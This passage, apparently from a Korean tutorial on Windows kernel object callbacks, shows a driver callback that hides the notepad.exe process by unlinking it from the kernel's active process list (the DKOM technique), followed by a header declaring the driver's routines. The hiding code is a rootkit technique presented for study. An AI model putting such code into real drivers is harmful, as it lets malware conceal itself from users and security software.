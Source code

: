 ```c++
	
	PLIST_ENTRY pListEntry = { 0, };
	char szProcName[16] = { 0, };
	strcpy_s(szProcName, 16, ((DWORD64)pOperationInformation->Object + iOffset.ImageFileName_off));
	if (!_strnicmp(szProcName, "notepad.exe", 16))
	{
		pListEntry = ((DWORD64)pOperationInformation->Object + iOffset.ActiveProcessLinks_off);
		if (pListEntry->Flink != NULL && pListEntry->Blink != NULL)
		{
			pListEntry->Flink->Blink = pListEntry->Blink;
			pListEntry->Blink->Flink = pListEntry->Flink;

			pListEntry->Flink = 0;
			pListEntry->Blink = 0;
		}
	}
}
```

실제 콜백 루틴의 동작이 작성되어 있습니다. `PreCallback` 에서는 핸들의 액세스 권한을 제어합니다. `PostCallback`에서는 `DKOM`으로 알려진 프로세스 은닉 기법이 작성되어 있습니다. 



### [-] common.h

```c++
#pragma once
#include "callbacks.h"

//============================================//
//======= DriverEntry & Unload Routine =======//
//============================================//

NTSTATUS DriverEntry(IN PDRIVER_OBJECT pDriver, IN PUNICODE_STRING pRegPath);
VOID UnloadDriver(IN PDRIVER_OBJECT pDriver);


//============================================//
//====== Object Callback Routine Define ======//
//============================================//

OB_PREOP_CALLBACK_STATUS PreCallback(PVOID RegistrationContext, POB_PRE_OPERATION_INFORMATION pOperationInformation);
void PostCallback(PVOID RegistrationContext, POB_POST_OPERATION_INFORMATION pOperationInformation);


//============================================//
//========== User-defined Function  ==========//
//============================================//

NTSTATUS ObRegExample();
BOOLEAN GetOffset(PEPROCESS Process);
BOOLEAN GetPebOffet();
```
